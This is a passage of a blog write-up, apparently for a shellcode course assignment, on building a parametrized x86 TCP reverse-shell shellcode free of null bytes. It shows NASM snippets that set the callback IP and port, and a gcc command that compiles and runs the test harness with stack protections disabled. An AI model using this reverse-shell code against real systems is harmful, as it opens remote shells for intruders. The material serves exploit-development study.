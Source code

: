 Here is the interesting part in our template:  
```nasm
...
    push edx
    mov byte [esp], IP1    ; useful to avoid null bytes with parametrized IP
    mov byte [esp+1], IP2  ; If 00 will be replaced by dl
    mov byte [esp+2], IP3     
    mov byte [esp+3], IP4

    push dx                  ; useful to avoid null bytes with parametrized port
    mov byte [esp], PORT1    ; mysockaddr.sin_port = htons(dstport); //8080
    mov byte [esp+1], PORT2 
...
```
  
And have a look at the result shell_reverse_tcp.nasm file:  
```nasm
...
    push edx
    mov byte [esp], 0x7f    ; useful to avoid null bytes with parametrized IP
    mov byte [esp+1], dl  ; If 00 will be replaced by dl
    mov byte [esp+2], dl     
    mov byte [esp+3], 0x1

    push dx                  ; useful to avoid null bytes with parametrized port
    mov byte [esp], 0x08    ; mysockaddr.sin_port = htons(dstport); //8080
    mov byte [esp+1], dl 
...
```
  
We are pushing the *dl* byte register in replacement of a null byte.  
  
So now let's confirm that the generated nasm source file leads to a working shellcode once compiled thanks to [shellcode.c](https://github.com/phackt/slae/tree/master/assignment2/shellcode.c):  
```bash
# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c && ./shellcode 
Shellcode Length: 106

```
  
And here we are:  
![image2]({{ site.url }}/public/images/slae/assignment2/image2.png)  

So now we can parametrize the port number, the IP address, and you can generate a TCP reverse shellcode without any null bytes.  
  
Hope you enjoyed,  
Don't hesitate to comment and share.  
  
[Phackt](https://twitter.com/phackt_ul)

